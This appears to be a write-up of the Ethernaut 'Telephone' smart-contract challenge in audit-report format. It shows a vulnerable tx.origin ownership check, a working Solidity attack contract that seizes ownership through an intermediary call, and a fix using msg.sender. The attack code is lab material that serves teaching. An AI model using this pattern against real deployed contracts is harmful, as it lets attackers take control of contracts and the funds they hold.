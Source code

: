 #### Claim ownership of the contract below to complete this level.

## Summary
The `Telephone::changeOwner` function gives ownership of the contract. The only required condition is `tx.origin != msg.sender` which can be easily bypassed.

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

## Vulnerability Detail
The only required condition is `tx.origin != msg.sender` in the `Telephone::changeOwner` functon can be easily bypassed.

The deployed malicious contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ITelephone.sol";

contract TelephoneAttack {
    address public telephoneAddress;

    constructor(address _telephoneAddress) {
        telephoneAddress = _telephoneAddress;
    }

    function changeOwnerToAttackerAddress() public {
        ITelephone telephoneContract = ITelephone(telephoneAddress);

        telephoneContract.changeOwner(msg.sender);
    }
}
```

Attack scenario:
1. An attacker deploys a malicious contract `TelephoneAttack` which has an `changeOwnerToAttackerAddress()` function. 
2. The attacker calls the `changeOwnerToAttackerAddress()` function. The function itself calls the `changeOwner()` function and updates the owner of the `Telephone` contract to be the attacker.
3. The condition `tx.origin != msg.sender` is bypassed easily, since the tx.origin is not the msg.sender now.
4. The attacker is now the new owner of the contract and do whatever they want.

## Impact
High. This breaks a core contract functionality. The attacker can become the owner of the contract and can do whatever they want without any constraints.

## Code Snippet
https://github.com/danielvichinyan/ethernaut-solutions/blob/main/telephone/Telephone.sol#L12-L14

## Tools Used
Remix IDE, Manual Review

## Recommendation
Avoid using `tx.origin` for authorization. Always use `msg.sender`.
Consider using OpenZeppelin's `Ownable`.
